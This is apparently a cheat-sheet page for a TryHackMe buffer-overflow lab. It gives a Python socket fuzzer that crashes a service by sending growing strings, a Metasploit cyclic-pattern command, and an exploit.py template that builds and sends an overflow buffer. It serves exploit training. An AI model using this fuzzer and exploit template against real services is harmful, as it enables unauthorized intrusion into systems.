 ```yaml
---
title: Buffer Overflow Payloads
desc: Payloads of buffer overflow.
tags: [BufferOverflow]
alts: [ImmunityDebugger, Mona]
website:
render_with_liquid: false
---
```


## Check to crash

### 1. Create a fuzzer.py

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.0.0.1"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### 2. Run

```sh
python fuzzer.py
```

<br />

## Exploit

### 1. Generate a cyclic pattern

```sh
# ex. 2000 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

Copy the output strings

### 2. Create an exploit.py

Paste the copied strings (the above cyclic pattern) to the “payload” variable.

```python
import socket

ip = "10.0.0.1"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "<PASTE_A_CYCLIC_PATTERN>"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Reference: 
<a href="https://tryhackme.com/room/bufferoverflowprep">
    https://tryhackme.com/room/bufferoverflowprep
</a>
